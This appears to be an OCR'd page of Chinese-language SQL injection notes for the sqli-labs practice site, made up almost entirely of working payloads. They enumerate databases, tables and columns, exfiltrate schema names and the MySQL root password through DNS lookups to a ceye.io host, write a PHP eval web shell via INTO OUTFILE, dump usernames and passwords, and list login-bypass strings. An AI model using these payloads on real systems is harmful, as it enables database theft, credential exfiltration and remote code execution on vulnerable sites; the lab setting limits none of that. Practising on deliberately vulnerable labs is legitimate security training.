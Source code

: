   - union select 1,(select load_file(concat('\\\\',substr((select schema_name from information_schema.schemata  limit 1),1,41),'.mysql.ip.port.38ljf2.ceye.io\\abc')))--+

#### 查找数据表

- union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security') ,3 

- 将单个表名发送到ceye

  uname=1') union select 3,(select load_file(concat('\\\\',substr((select table_name from information_schema.tables where table_schema ='security'  limit 1),1,41),'.mysql.ip.port.38ljf2.ceye.io\\abc')))--+

#### 查找数据表中所有字段（列）

- #### 127.0.0.1/Less-3/?id=100') union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security') --+

- 获取内容

  - union select 1,(select group_concat(username) from security.users limit 0,1),3 

- 查询某一个表的字段名发送到ceye

  - union select 1,(select load_file(concat('\\\\',substr((select column_name from information_schema.columns where table_name='users' and table_schema='security' limit 1),1,41),'.mysql.ip.port.38ljf2.ceye.io\\abc')))--+

#### 猜解账号密码

- outfile文件注入

  - union select 1,'<?php @eval($_POST[360]);?>' into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\Less-8\\3.php'--+
  - into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\Less-13\\1.txt'

- 查root密码ceye代码

  127.0.0.1/Less-1/?id=1' union SELECT 1,(LOAD_FILE(CONCAT('\\\\',mid((SELECT password FROM mysql.user WHERE user='root' LIMIT 1),2,41),'.mysql.ip.port.38ljf2.ceye.io\\abc'))),3--+

- bug   

  uname=1') or 1=1 into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\Less-13\\1.txt';--+

  这个文件里会有所有的用户名和密码

- 查询数据

  union select 1,(select 1 from (select count(*),concat((select(select(select distinct concat(username,password) from users limit 0,1))from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

#### 绕过登陆验证

- admin' --
- admin' #
- admin'/*
- ' or 1=1--
- ' or 1=1#
- ' or 1=1/*
- ') or '1'='1--
- ') or ('1'='1--
